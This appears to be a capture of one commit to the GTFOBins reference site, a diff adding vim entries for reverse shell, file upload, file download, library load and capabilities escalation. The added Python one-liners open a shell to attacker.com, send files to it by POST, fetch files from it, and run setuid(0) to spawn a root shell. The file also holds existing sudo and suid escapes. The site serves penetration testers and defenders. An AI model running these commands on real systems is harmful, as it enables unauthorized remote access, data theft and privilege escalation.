

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/vim.md, in a window 1280 px wide and 1400 px high, scrolled down 322 px. Shown: the top 1388 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1559 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add reverse-shell, file-upload, file-download, library-load, and capabilities to vim

```diff
--- a/_gtfobins/vim.md
+++ b/_gtfobins/vim.md
@@ -8,6 +8,44 @@ functions:
         :shell
     - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
+  reverse-shell:
+    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
+        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
+        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
+        pty.spawn("/bin/sh")
+        vim.command(":q!")'
+  file-upload:
+    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
+      code: |
+        export URL=http://attacker.com/
+        export LFILE=file_to_send
+        vim -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
+        else: import urllib as u, urllib2 as r
+        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
+        vim.command(":q!")'
+    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+      code: |
+        export LPORT=8888
+        vim -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import http.server as s, socketserver as ss
+        else: import SimpleHTTPServer as s, SocketServer as ss
+        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
+        vim.command(":q!")'
+  file-download:
+    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
+      code: |
+        export URL=http://attacker.com/file_to_get
+        export LFILE=file_to_save
+        vim -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import urllib.request as r
+        else: import urllib as r
+        r.urlretrieve(e["URL"], e["LFILE"])
+        vim.command(":q!")'
   file-write:
     - code: |
         vim file_to_write
@@ -16,6 +54,9 @@ functions:
         w
   file-read:
     - code: vim file_to_read
+  library-load:
+    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
+      code: vim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
   suid:
     - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
@@ -23,4 +64,7 @@ functions:
     - code: sudo vim -c ':!/bin/sh'
     - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
+  capabilities:
+    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
+      code: ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
 ---
```
